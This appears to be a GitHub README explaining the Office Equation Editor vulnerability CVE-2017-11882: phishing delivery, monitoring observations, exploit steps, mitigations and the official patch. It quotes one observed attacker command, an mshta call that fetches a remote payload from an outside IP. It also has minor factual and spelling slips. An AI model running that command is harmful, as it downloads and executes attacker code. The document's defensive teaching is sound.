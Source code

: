 # Microsoft Office Memory Corruption (CVE-2017-11882)

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
It is used to monitor and display all the activities of file system in real-time. [reference 1](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt' 


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt' 


### Steps after you click the malicious word file:
1. Microsoft Word file load up
2. Execute Equation Editor
3. Hacker overflowed the font name registers inside Equation Editor
4. Overflow message
5. Redirect to new EIP address
6. Winexe execute
7. Download hacker’s malicious software


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.  
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.  
The following commands can update your registry to disable EQUAEDT32.exe.  
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice.


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.  
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.  
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.  
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  

